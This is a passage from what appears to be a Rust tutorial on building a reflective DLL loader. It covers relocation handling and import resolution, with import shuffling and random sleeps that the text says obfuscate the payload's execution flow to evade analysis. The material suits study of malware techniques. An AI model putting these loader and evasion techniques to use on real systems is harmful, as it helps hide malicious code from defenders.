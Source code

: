 ```rust
                    *((addr + offset as isize) as *mut isize) += delta;
                }
                _ => {}
            }
        }

        relocation_ptr = rva_mut(relocation_ptr as _, (*relocation_ptr).SizeOfBlock as usize);
    }
}
```

### Resolving the imports

Now, to ensure the payload functions correctly, we must resolve its external dependencies by processing the import table.

In the DLL's Data Directory, we focus on the `IMAGE_DIRECTORY_ENTRY_IMPORT` index, where the import directory resides. This directory contains an array of `IMAGE_IMPORT_DESCRIPTOR` structures, each representing a DLL from which the module imports functions.

During this step we also utilize shuffling and sleep calls to obfuscate the execution flow. First we shuffle the import descriptors with [Fisher–Yates in-place shuffle](https://en.wikipedia.org/wiki/Fisher%E2%80%93Yates_shuffle):

```rust
let mut id_ptr = import_descriptor_ptr;
let mut import_count = 0;

while (*id_ptr).Name != 0 {
    import_count += 1;
    id_ptr = id_ptr.add(1);
}

let id_ptr = import_descriptor_ptr;

if import_count > 1 && flags.shuffle {
    // Fisher-Yates shuffle
    for i in 0..import_count - 1 {
        let rn = match get_random(far_procs) {
            Some(rn) => rn,
            None => return 0,
        };

        let gap = import_count - i;
        let j_u64 = i + (rn % gap);
        let j = j_u64.min(import_count - 1);

        id_ptr.offset(j as _).swap(id_ptr.offset(i as _));
    }
}
```

Then, during the iteration, we call `BCryptGenRandom` with `BCRYPT_RNG_ALG_HANDLE` as `hAlgorithm` parameter to generate a random sleep duration for each iteration:
